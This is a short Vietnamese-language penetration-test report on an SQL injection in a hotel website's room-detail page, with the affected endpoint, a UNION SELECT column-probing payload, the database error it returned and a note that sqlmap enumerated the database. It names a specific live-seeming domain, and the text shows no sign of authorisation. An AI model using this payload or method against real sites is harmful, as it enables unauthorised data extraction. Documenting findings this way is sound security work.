

> # SQL Injection


---
> ### Tóm tắt
- Target: embryohotel.com.
- Lỗ hổng: SQL Injection.
- Có khả năng trích xuất thông tin database.
---
## Phạm vi

| Hạng mục | Mô tả |
|----------|-------|
| Mục tiêu | embryohotel.com |
| Loại hình kiểm thử | Black-box |
| Thông tin đăng nhập được cung cấp | Không có |
| Phương pháp | Thủ công kết hợp công cụ |


### Công cụ sử dụng
- Burp Suite
- Wappalyzer
- SQLmap
- Search engine


### Tổng quan lỗ hổng

|Lỗ hổng|Mức độ nghiêm trọng|
|---|---|
|SQL Injection| Cao|

## Bằng chứng thực nghiệm (Proof of Concept)

### Endpoint bị ảnh hưởng
```
GET /room-detail.php?id=1
```

### Payload 

```
UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
### Phản hồi từ hệ thống

```
The used SELECT statements have a different number of columns
```

---

### Xác minh bằng công cụ sqlmap


Cơ sở dữ liệu đã được liệt kê (enumerate) thành công.

### Tác động
- Trích xuất dữ liệu trái phép (Data exfiltration).
- Vượt qua cơ chế xác thực (Authentication bypass).

### Mức độ rủi ro
- Nghiêm trọng
